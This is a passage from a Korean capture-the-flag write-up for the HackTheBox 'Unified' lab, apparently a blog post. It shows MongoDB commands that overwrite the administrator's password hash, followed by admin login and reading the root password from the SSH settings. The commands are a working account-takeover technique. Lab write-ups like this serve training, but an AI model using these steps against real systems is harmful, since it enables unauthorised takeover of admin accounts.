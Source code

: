 다시 mongo에 접속해서 db.admin.update로 x_shadow 값을 업데이트 시켜보자. (다른 풀이 중에는 insert로 계정을 추가하는 방식도 존재한다.)
``` bash
# use ace

# db.admin.update({ "_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow" : "$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW."}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

# db.admin.find()
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$91MIYRtYntosD8IH$E993UyqhPsVRjCjT4K02XiTqh07BZXOx4Od8t16MLTq14c5hBZ4kHfy4tUrVBiu3vSRaci9f49p7AUPtEX0MW.", "time_created" : NumberLong(1640900495), "last_site_name" : "default", "ui_settings" : { "neverCheckForUpdate" : true...
```


## [0x04] login administrator & get root flag
---
성공적으로 hash값이 변경되었다면 로그인을 해보자. 아래와 같이 성공적으로 로그인 할 수 있다.
![](../assets/image_post/20240312182934.png)

administrator로 로그인한 만큼, 관리자 설정 부분을 먼저 확인하였다. 아래와 같이 ssh 자동 로그인과 관련된 설정에서 root 계정의 암호를 확인할 수 있다.
![](../assets/image_post/20240312183400.png)
